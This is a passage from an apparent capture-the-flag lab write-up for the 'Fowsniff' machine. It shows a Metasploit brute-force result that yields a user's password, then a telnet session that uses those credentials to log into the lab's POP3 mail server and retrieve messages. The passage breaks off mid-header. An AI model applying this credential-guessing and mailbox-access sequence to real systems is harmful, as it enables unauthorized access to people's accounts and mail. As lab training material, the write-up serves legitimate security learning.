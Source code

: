 ![Metasploit](images/06-MSFsettings.png)

And I got a hit on the user *seina* with the password *scoobydoo2*

![Metasploit Success](images/07-MSFSuccess.png)


---
## Telnet into Port 110
Logged in to the *pop3* mail server using the credentials of the user *seina* and retrieved two emails:

```
┌──(kali㉿kali)-[~/THM/Fowsniff1]
└─$ telnet 10.10.183.76 110
Trying 10.10.183.76...
Connected to 10.10.183.76.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
password scoobydoo2
-ERR Unknown command.
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
.
1
-ERR Unknown command: 1
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
```